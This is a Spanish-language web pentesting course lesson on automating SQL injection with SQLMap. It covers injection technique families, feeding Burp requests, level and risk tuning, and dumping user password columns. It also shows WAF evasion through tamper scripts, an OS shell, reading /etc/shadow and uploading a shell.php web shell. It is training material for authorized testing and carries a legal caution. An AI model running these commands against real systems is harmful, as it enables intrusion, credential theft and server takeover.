



# Lección 07: Automatización profesional con SQLMap

[Inicio](../../../README.md) | [Pentesting Web](../../README.md) | [Módulo SQLi](../README.md) | [Anterior: Explotación avanzada: Archivos, RCE y OOB](../06-explotacion-avanzada-archivos-rce-oob/README.md) | [Siguiente: Ingeniería defensiva y mitigaciones](../08-defensa-y-mitigaciones/README.md)

> [!CAUTION]
> SQLMap es una herramienta de explotación automatizada capaz de generar miles de peticiones HTTP en pocos segundos. Su ejecución sobre aplicaciones web sin autorización contractual previa genera registros evidentes en firewalls, puede degradar el rendimiento del servicio y constituye un delito informático.

## Introducción

**SQLMap** es el estándar de la industria en herramientas de código abierto para la detección, comprobación y explotación automatizada de inyecciones SQL. Desarrollado en Python, implementa un motor avanzado de inferencia que analiza respuestas HTTP, realiza fingerprinting del gestor de base de datos (DBMS) y ejecuta técnicas de extracción masiva de datos y post-explotación en el sistema operativo.

El dominio profesional de SQLMap requiere comprender cómo funciona su motor interno para calibrar adecuadamente el alcance de las pruebas, minimizar el ruido en la red, evitar falsos negativos ocasionados por Web Application Firewalls (WAF) y prevenir modificaciones destructivas accidentales en bases de datos productivas.



---

## 1. El motor de técnicas de inyección (BEUSTQ)

SQLMap clasifica y ejecuta pruebas de inyección mediante seis familias de técnicas estandarizadas, identificadas bajo el acrónimo **BEUSTQ**:

| Letra | Técnica | Mecanismo técnico |
|---|---|---|
| **B** | **Boolean-based blind** | Inferencia condicional evaluando diferencias en el cuerpo o código HTTP de la respuesta. |
| **E** | **Error-based** | Provocación de excepciones del DBMS que devuelven fragmentos de datos en el mensaje de error. |
| **U** | **Union query-based** | Operador `UNION` para anexar resultados de consultas arbitrarias a la salida proyectada en la página. |
| **S** | **Stacked queries** | Ejecución de sentencias SQL múltiples concatenadas mediante punto y coma (`;`). |
| **T** | **Time-based blind** | Inferencia mediante funciones de retardo temporal (`SLEEP`, `WAITFOR DELAY`, `pg_sleep`). |
| **Q** | **Inline queries** | Subconsultas embebidas en cláusulas específicas del motor (por ejemplo, en SQLite o subconsultas en `WHERE`). |

Por defecto, SQLMap evalúa todas las técnicas compatibles. Para reducir el tiempo de escaneo y evitar retardos innecesarios, se puede acotar la técnica con la bandera `--technique`:

```bash
# Probar exclusivamente inyecciones UNION y basadas en error
sqlmap -u "http://app.example.com/item?id=1" --technique=UE
```

---

## 2. Metodología de auditoría con tráfico de Burp Suite

El flujo de trabajo más fiable para auditar parámetros complejos consiste en capturar la petición HTTP real desde el proxy de **Burp Suite** y suministrarla intacta a SQLMap.



### Procedimiento operativo

1. Interceptar la petición HTTP en Burp Suite o seleccionarla en el historial de **HTTP History**.
2. Hacer clic derecho sobre la petición y pulsar **Copy to file** (o guardar el texto crudo en `request.txt`).
3. Ejecutar SQLMap especificando el archivo de solicitud con la bandera `-r`:

```bash
sqlmap -r request.txt -p id --batch
```

- `-r request.txt`: Parsea automáticamente el método (GET/POST/PUT), la URL, todas las cabeceras HTTP y las cookies de sesión.
- `-p id`: Especifica el parámetro exacto a evaluar, evitando que SQLMap pierda tiempo probando cabeceras estáticas irrelevantes.
- `--batch`: Acepta automáticamente las respuestas predeterminadas en todos los mensajes interactivos de la terminal.

---

## 3. Calibración de nivel y riesgo (`--level` y `--risk`)

SQLMap ofrece dos modificadores cardinales que gobiernan la exhaustividad de los vectores de prueba:

### Nivel de análisis (`--level 1..5`)

El parámetro `--level` define qué partes de la solicitud HTTP se someterán a prueba y cuántas variantes de payload se emplearán:

- **Nivel 1 (Predeterminado)**: Evalúa parámetros GET y POST estándar.
- **Nivel 2**: Añade la cabecera HTTP `Cookie` al vector de prueba.
- **Nivel 3**: Añade las cabeceras HTTP `User-Agent` y `Referer`.
- **Nivel 4 y 5**: Incluye la cabecera `Host` y amplía significativamente el diccionario de prefijos y sufijos de escape sintáctico.

### Nivel de riesgo (`--risk 1..3`)

El parámetro `--risk` regula la probabilidad de que una prueba altere el estado de la base de datos:

- **Riesgo 1 (Predeterminado)**: Pruebas inocuas basadas en consultas `SELECT` que no conllevan riesgo de modificar registros ni degradar el servicio.
- **Riesgo 2**: Añade pruebas basadas en tiempo intensivas que pueden ralentizar temporalmente la base de datos.
- **Riesgo 3**: Introduce pruebas basadas en sentencias `OR` (por ejemplo, `OR 1=1`), que si se inyectan en sentencias `UPDATE` o `DELETE` del backend, **podrían sobrescribir o eliminar todos los registros de la tabla**.

```bash
# Evaluación profunda en cabeceras de autenticación manteniendo riesgo controlado
sqlmap -r login.txt --level=3 --risk=1 --batch
```

---

## 4. Enumeración sistemática de la base de datos

Una vez confirmada la vulnerabilidad, la fase de extracción sigue una jerarquía técnica descendente:



### Comandos de extracción ordenada

```bash
# 1. Comprobar contexto de ejecución y privilegios
sqlmap -r req.txt --banner --current-user --current-db --is-dba

# 2. Listar todas las bases de datos disponibles
sqlmap -r req.txt --dbs

# 3. Listar tablas de la base de datos de la aplicación
sqlmap -r req.txt -D tienda --tables

# 4. Listar columnas de la tabla de usuarios
sqlmap -r req.txt -D tienda -T users --columns

# 5. Volcar columnas sensibles (username, password)
sqlmap -r req.txt -D tienda -T users -C username,password --dump
```

---

## 5. Evasión de controles defensivos mediante Tamper Scripts

Cuando un Web Application Firewall (WAF) intercepta palabras clave SQL convencionales o caracteres especiales, los **Tamper Scripts** de SQLMap transforman dinámicamente los payloads antes de su envío por la red:

| Script Tamper | Acción sobre el payload | Caso de uso típico |
|---|---|---|
| `space2comment.py` | Sustituye espacios en blanco por comentarios inline (`/**/`). | Bypasses de firmas de espacio en blanco. |
| `between.py` | Sustituye operadores relacionales (`>`) por cláusulas `NOT BETWEEN 0 AND X`. | Filtros que bloquean símbolos mayor/menor. |
| `charencode.py` | Aplica codificación URL a todos los caracteres del payload. | Evasión de inspección de texto plano en firewalls. |
| `randomcase.py` | Alterna mayúsculas y minúsculas aleatoriamente (ej. `sElEcT`). | Filtros de inspección insensibles a mayúsculas defectuosos. |
| `base64encode.py` | Codifica todo el payload en Base64. | Parámetros donde el backend decodifica en base64 antes de consultar. |

### Aplicación encadenada de scripts

```bash
sqlmap -r req.txt --tamper=space2comment,randomcase --batch
```

---

## 6. Funcionalidades avanzadas de sistema operativo

Si la cuenta de conexión del DBMS posee privilegios suficientes y la base de datos permite la interacción con el sistema:

### Shell interactiva en el sistema operativo (`--os-shell`)

```bash
sqlmap -r req.txt --os-shell
```

- En **MySQL/MariaDB/PostgreSQL**: Si se conoce una ruta escribible en el servidor web, SQLMap sube un stager en PHP/ASPX que actúa como puente de ejecución de comandos.
- En **MSSQL**: Si la conexión opera con rol administrativo, SQLMap habilita y utiliza de forma transparente `xp_cmdshell`.

### Lectura y subida de archivos arbitrarios

```bash
# Leer archivo sensible del sistema operativo
sqlmap -r req.txt --file-read="/etc/shadow"

# Subir un script personalizado al servidor web
sqlmap -r req.txt --file-write="./shell.php" --file-dest="/var/www/html/shell.php"
```

---

## Cheatsheet

Referencia rápida del capítulo en formato PDF: [cheatsheet.pdf](./cheatsheet.pdf).

---

[Anterior: Explotación avanzada: Archivos, RCE y OOB](../06-explotacion-avanzada-archivos-rce-oob/README.md) | [Volver al índice del módulo](../README.md) | [Siguiente: Ingeniería defensiva y mitigaciones](../08-defensa-y-mitigaciones/README.md)
